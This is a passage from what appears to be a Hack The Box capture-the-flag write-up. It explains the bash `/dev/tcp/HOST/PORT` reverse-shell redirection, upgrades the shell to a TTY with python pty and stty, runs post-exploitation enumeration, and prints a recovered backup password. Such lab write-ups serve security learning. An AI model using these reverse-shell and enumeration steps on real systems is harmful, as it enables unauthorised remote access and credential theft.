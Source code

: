 ![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/25.jpg)

\>&

- To quickly explain what the others missed:
- `echo "hey" >&2`
- `>` redirect standard output (implicit `1>`)
- `&` what comes next is a file descriptor, not a file (only for right hand side of `>`)
- `2` stderr file descriptor number
- Redirect `stdout` from `echo` command to `stderr`. (If you were to use`echo "hey" >2` you would output `hey` to a file called `2`)

0>&1

- This snippet runs a new interactive instance of bash (`bash -i`), on a TCP connection to the specified port on the specified host which is created for the duration of the bash process. 
- Standard output and standard error are sent through this connection (`>& /dev/tcp/HOST/PORT`), and standard input is read through this connection

#### Upgrade the shell to proper tty shell
``` py
python -c 'import pty;pty.spawn("/bin/bash")'
```

- Background with Ctrl + Z

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/26.jpg)

```sh
stty raw -echo; fg
export TERM=xterm
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/27.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/28.jpg)

```
cat .bash_history | less
uname -a // check kernel version
find . -ls
find . -ls -type f // only show files

```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/29.jpg)

- Can't read the files

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/30.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/31.jpg)

```sh
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
